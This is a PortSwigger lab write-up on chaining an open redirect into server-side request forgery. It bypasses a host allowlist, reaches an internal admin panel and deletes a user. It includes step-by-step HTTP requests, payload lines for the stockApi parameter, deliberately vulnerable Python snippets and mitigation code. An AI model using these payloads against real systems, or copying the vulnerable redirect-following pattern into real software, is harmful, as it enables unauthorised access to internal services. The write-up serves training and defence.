

# Lab 05: SSRF with Filter Bypass via Open Redirection Vulnerability

> **Topic**: SSRF Vulnerabilities
> **Lab Number**: 05
> **Platform**: PortSwigger Web Security Academy

## Category
SSRF — Filter Bypass via Open Redirection

## Vulnerability Summary
The application's stock-check feature accepts a URL via the `stockApi` POST parameter, but this time a server-side allowlist blocks direct requests to internal addresses like `http://192.168.0.12:8080`. However, the application itself contains an open redirection vulnerability in its `/product/nextProduct` endpoint — a path the allowlist trusts. By supplying a `stockApi` value that points to this trusted redirect endpoint with a `path` parameter set to the internal admin URL, the server follows the redirect to the internal address on the attacker's behalf, bypassing the filter entirely.

## Attack Methodology

### Step 1: Recon — Confirm the Filter Exists
Opened a product page and clicked "Check stock". Intercepted the request in Burp Repeater:

```http
POST /product/stock HTTP/2
Host: 0a2000ba0430358a80faf32e00700007.web-security-academy.net
Cookie: session=nXrsFl1Z96mRjVlMNx1bEcSKT3bkljt9
Content-Type: application/x-www-form-urlencoded

stockApi=https://stock.weliketoshop.net/product/stock/check?productId=3&storeId=1
```

Attempted to replace `stockApi` with a direct internal address:

```
stockApi=http://192.168.0.12:8080/admin
```

The server rejected it — the allowlist is blocking requests to internal RFC-1918 addresses directly.

### Step 2: Find the Open Redirect
Browsed the application and noticed the "Next product" navigation link. Intercepted the request:

```
GET /product/nextProduct?currentProductId=3&path=https://stock.weliketoshop.net/...
```

The `path` parameter controls where the server redirects after fetching the next product. Tested it with an arbitrary URL:

```
GET /product/nextProduct?currentProductId=3&path=http://192.168.0.12:8080/admin
```

The server issued a `302 Found` redirect to `http://192.168.0.12:8080/admin` — confirming an open redirect with no validation on the `path` parameter.

### Step 3: Chain the Open Redirect into SSRF
The allowlist permits requests to the application's own domain. The `/product/nextProduct` endpoint is on that trusted domain. By setting `stockApi` to point at the open redirect endpoint — with the internal admin URL as the `path` — the server:

1. Fetches `/product/nextProduct?...&path=http://192.168.0.12:8080/admin` (allowed — same domain)
2. Receives a `302` redirect to `http://192.168.0.12:8080/admin`
3. Follows the redirect to the internal address (bypassing the filter)
4. Returns the admin panel response

Payload:

```
stockApi=/product/nextProduct?currentProductId=3&path=http://192.168.0.12:8080/admin
```

The response body contained the admin panel HTML, including the delete link for user `carlos`:

```
/admin/delete?username=carlos
```

### Step 4: Delete the Target User
Updated the `path` parameter to point at the delete endpoint:

```http
POST /product/stock HTTP/2
Host: 0a2000ba0430358a80faf32e00700007.web-security-academy.net
Cookie: session=nXrsFl1Z96mRjVlMNx1bEcSKT3bkljt9
Content-Type: application/x-www-form-urlencoded

stockApi=/product/nextProduct?currentProductId=3&path=http://192.168.0.12:8080/admin/delete?username=carlos
```

Response confirmed the deletion. The admin panel returned `User deleted successfully!` and the lab was marked as solved.



## Technical Root Cause

### The Filter (Incomplete Protection)
The server validates the `stockApi` URL against an allowlist of trusted hosts:

```python
# Partial fix — blocks direct internal addresses
ALLOWED_HOSTS = {'stock.weliketoshop.net', '0a2000ba0430358a80faf32e00700007.web-security-academy.net'}

def check_stock(request):
    stock_api_url = request.POST.get('stockApi')
    parsed = urlparse(stock_api_url)
    if parsed.hostname not in ALLOWED_HOSTS:
        return HttpResponseForbidden('Invalid host')
    response = requests.get(stock_api_url, allow_redirects=True)  # ← follows redirects
    return HttpResponse(response.content)
```

The filter checks the *initial* URL's hostname — but `requests` (and most HTTP clients) follow redirects by default. The allowlist check happens once, at the start. It never re-validates the destination after a redirect.

### The Open Redirect
```python
# Vulnerable — path parameter is not validated
def next_product(request):
    current_id = request.GET.get('currentProductId')
    redirect_path = request.GET.get('path')  # no validation
    next_id = get_next_product_id(current_id)
    return redirect(redirect_path)  # redirects to attacker-controlled URL
```

### Why the Chain Works

| Request | Allowlist Check | Redirect Followed? | Final Destination |
|---|---|---|---|
| `stockApi=http://192.168.0.12:8080/admin` | ❌ Blocked — internal IP | N/A | Rejected |
| `stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin` | ✅ Allowed — same domain | ✅ Yes | `http://192.168.0.12:8080/admin` |

The filter is bypassed because it only validates the first hop. The redirect carries the request to the internal address after the check has already passed.

## Impact
- **Filter Bypass**: A server-side allowlist that doesn't account for redirects provides no real protection against SSRF
- **Unauthenticated Admin Access**: The internal admin panel at `192.168.0.12:8080` has no authentication, relying entirely on network isolation
- **Arbitrary User Deletion**: Full admin functionality accessible with no credentials
- **Chained Vulnerability**: Two individually lower-severity issues (open redirect + SSRF filter) combine into a critical exploit

**Severity: High**

## Proof of Concept

**Step 1 — Retrieve admin panel via redirect chain:**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=/product/nextProduct?currentProductId=3&path=http://192.168.0.12:8080/admin
```

**Step 2 — Delete target user:**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=/product/nextProduct?currentProductId=3&path=http://192.168.0.12:8080/admin/delete?username=carlos
```

## Key Takeaways
1. **Allowlists Must Validate Every Hop**: Checking only the initial URL is insufficient. If the HTTP client follows redirects, every redirect destination must be re-validated against the allowlist before the request is followed.
2. **Open Redirects Are Not Low-Severity in All Contexts**: An open redirect on a trusted domain becomes a critical SSRF bypass primitive when the application also makes server-side requests. The two vulnerabilities chain directly.
3. **Disable Redirect Following for SSRF-Sensitive Requests**: Server-side HTTP clients should be configured with `allow_redirects=False` for any request where the destination URL comes from user input. Redirects should be handled manually with re-validation.
4. **Internal Services Need Their Own Auth**: Network isolation is not a substitute for authentication. Any internal service that performs privileged actions must authenticate callers independently of where the request originates.
5. **SSRF Filters Are Commonly Incomplete**: Allowlists that only check the initial URL, or that can be bypassed with alternative representations (redirects, DNS rebinding, IPv6, URL encoding), are a false sense of security.

## Mitigation

### 1. Disable Automatic Redirect Following
```python
def check_stock(request):
    stock_api_url = request.POST.get('stockApi', '')
    # Don't follow redirects automatically
    response = requests.get(stock_api_url, allow_redirects=False)
    if response.is_redirect:
        return HttpResponseForbidden('Redirects not permitted')
    return HttpResponse(response.content)
```

### 2. Re-Validate After Each Redirect
```python
def safe_fetch(url, allowed_hosts, max_redirects=5):
    for _ in range(max_redirects):
        parsed = urlparse(url)
        if parsed.hostname not in allowed_hosts or is_internal(parsed.hostname):
            raise ValueError('Disallowed redirect destination')
        response = requests.get(url, allow_redirects=False)
        if not response.is_redirect:
            return response
        url = response.headers['Location']
    raise ValueError('Too many redirects')
```

### 3. Fix the Open Redirect
```python
# Reject any path with a host component (absolute URLs)
def next_product(request):
    redirect_path = request.GET.get('path', '/')
    parsed = urlparse(redirect_path)
    if parsed.scheme or parsed.netloc:
        return HttpResponseBadRequest('Invalid redirect path')
    return redirect(redirect_path)
```

### 4. Add Authentication to Internal Admin Panels
```python
def admin_panel(request):
    if not request.user.is_staff:
        return HttpResponseForbidden()
    # proceed with admin logic
```

## References
- [PortSwigger SSRF Lab - SSRF with filter bypass via open redirection](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
- [PortSwigger SSRF — Circumventing SSRF Defenses](https://portswigger.net/web-security/ssrf#circumventing-common-ssrf-defenses)
- [PortSwigger Open Redirection](https://portswigger.net/web-security/dom-based/open-redirection)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-04-30*
*Writeup by vibhxr*
